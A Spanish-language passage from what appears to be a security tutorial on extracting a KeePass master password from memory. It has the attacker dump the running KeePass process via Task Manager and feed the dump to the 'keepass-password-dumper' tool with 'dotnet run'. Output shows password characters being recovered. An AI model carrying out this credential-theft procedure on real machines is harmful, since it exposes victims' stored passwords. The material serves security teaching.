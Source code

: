 En este punto un atacante tendra que esperar hasta que la victima tenga el `keepass` abierto, por lo que nos iremos al `administrador de tareas` y buscaremos `keepass`, veremos algo asi:

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que le daremos `click derecho` -> `Crear archivo de volcado de memoria` y esto nos lo creara, le daremos a `Abrir ubicacion del archivo` y lo pegaremos donde tengamos la carpeta que descomprimimos inicialmente entrando en ella y pegandola dentro de la carpeta llamada `keepass-password-dumper-main`.

Una vez echo eso y teniendo el `.dmp` dentro de la carpeta abriremos una terminal en la misma carpeta `keepass-password-dumper-main` y ejecutaremos lo siguiente:

```powershell
dotnet run <VOLCADO_KEEPASS>
```

> Ejemplo:

```powershell
dotnet run KeePass.DMP
```

Info:

```
C:\Program Files\dotnet\sdk\9.0.101\Sdks\Microsoft.NET.Sdk\targets\Microsoft.NET.EolTargetFrameworks.targets(32,5): warning NETSDK1138: La plataforma de destino "net7.0" no tiene soporte técnico y no recibirá actualizaciones de seguridad en el futuro. Para obtener más información sobre la directiva de soporte técnico, consulte https://aka.ms/dotnet-core-support.
C:\Program Files\dotnet\sdk\9.0.101\Sdks\Microsoft.NET.Sdk\targets\Microsoft.NET.EolTargetFrameworks.targets(32,5): warning NETSDK1138: La plataforma de destino "net7.0" no tiene soporte técnico y no recibirá actualizaciones de seguridad en el futuro. Para obtener más información sobre la directiva de soporte técnico, consulte https://aka.ms/dotnet-core-support.
C:\Program Files\dotnet\sdk\9.0.101\Sdks\Microsoft.NET.Sdk\targets\Microsoft.NET.EolTargetFrameworks.targets(32,5): warning NETSDK1138: La plataforma de destino "net7.0" no tiene soporte técnico y no recibirá actualizaciones de seguridad en el futuro. Para obtener más información sobre la directiva de soporte técnico, consulte https://aka.ms/dotnet-core-support.
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●e
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●c
Found: ●●●r
Found: ●●●r
Found: ●●●r
Found: ●●●r
Found: ●●●r
```